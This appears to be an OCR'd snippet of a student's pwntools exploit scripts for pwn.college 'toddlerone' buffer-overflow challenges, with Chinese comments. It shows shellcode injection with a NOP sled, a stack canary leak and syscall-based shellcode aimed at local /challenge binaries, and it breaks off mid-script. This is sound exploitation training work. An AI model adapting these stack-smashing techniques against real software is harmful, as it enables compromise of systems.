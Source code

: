 '''

overflow_size=0x40
p.sendlineafter("Payload size: ",str(overflow_size))

payload=asm(shell_code, arch='amd64')
shell_len=len(payload)
print(shell_len)
payload+=b'\x90'*(overflow_size-shell_len-8)+p64(0x7fffffffd2b0)
p.sendlineafter("bytes)!\n",payload)

p.interactive()

level 3.0
printf泄露canary

level 3.1
#shell用jmp连接
from pwn import *

p=process(['/challenge/toddlerone_level3.1'])

overflow_size=0x29
p.sendlineafter("Payload size: ",str(overflow_size))

payload=b'\x90'*(0x29-6-1)+b'REPEAT'
p.sendlineafter("bytes)!\n",payload)

p.recvuntil("You said: ")
p.recvuntil("\n",drop=1)
recv_data=p.recv(7)
can=b'\x00'+recv_data
cc=u64(can)
print(hex(cc))

recv_data=p.recv(6)
recv_data=recv_data+b'\x00\x00'
stack_addr=u64(recv_data)-0x1040-(0x80*2)-0x30+2
print(hex(u64(recv_data)))

overflow_size=0x20
p.sendlineafter("Payload size: ",str(overflow_size))

shell2='''
mov edi,1
push rax
pop rsi
xor edx,edx
mov r10,1000
push 40
pop rax
syscall
'''

payload=b'REPEAT'
payload+=asm(shell2,arch='amd64')
shell2_len=len(payload)
print(shell2_len)
payload+=b'\x90'*(0x20-shell2_len)
p.sendlineafter("bytes)!\n",payload)
